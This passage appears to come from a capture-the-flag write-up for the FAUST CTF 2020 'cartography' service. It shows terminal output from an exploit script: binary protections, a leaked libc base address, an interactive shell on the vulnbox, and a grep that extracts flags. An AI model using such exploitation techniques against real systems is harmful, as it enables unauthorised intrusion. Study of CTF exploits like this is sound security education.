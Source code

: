 Output (from local vulnbox instance):

```bash
# ./exploit.py
[*] '/pwd/datajerk/faustctf2020/srv/cartography/cartography'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/faustctf2020/srv/cartography/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 172.19.2.18 on port 6666: Done
[*] puts: 0x7fcb9aa02910
[*] baselibc: 0x7fcb9a991000
[*] Switching to interactive mode
$ id
uid=109(cartography) gid=116(cartography) groups=116(cartography)
$ pwd
/srv/cartography
$ grep -Pahr FAUST_ data
&\x00\x00\x00\x00AUST_XwjbvAGiAn7erlcAAAAABtp5nB/HgA9R
&\x00\x00\x00\x00AUST_XwiWIAGiAikrbLMAAAAAIlwPKw1A6adC
&\x00\x00\x00\x00AUST_XwinAAGiAhVYUrsAAAAA4pzCWXmUDTmn
&\x00\x00\x00\x00AUST_XwjiEAGiAtVS0h0AAAAAPcqH+5WXZyah
&\x00\x00\x00\x00AUST_XwjW0AGiAve+Il0AAAAA9G+mmfP1BCai
```

> I used the attacker's `grep` command to get a flags.

Output with killer loop:

```
# ./exploit.py
[*] '/pwd/datajerk/faustctf2020/srv/cartography/cartography'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/faustctf2020/srv/cartography/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 172.19.2.18 on port 6666: Done
[*] puts: 0x7f9498c03910
[*] baselibc: 0x7f9498b92000
[*] Switching to interactive mode
Sector created!
Options:
0. New Sector
1. Update Sector Data
2. Read Sector Data
3. Save Sector
4. Load Sector
5. Exit
```
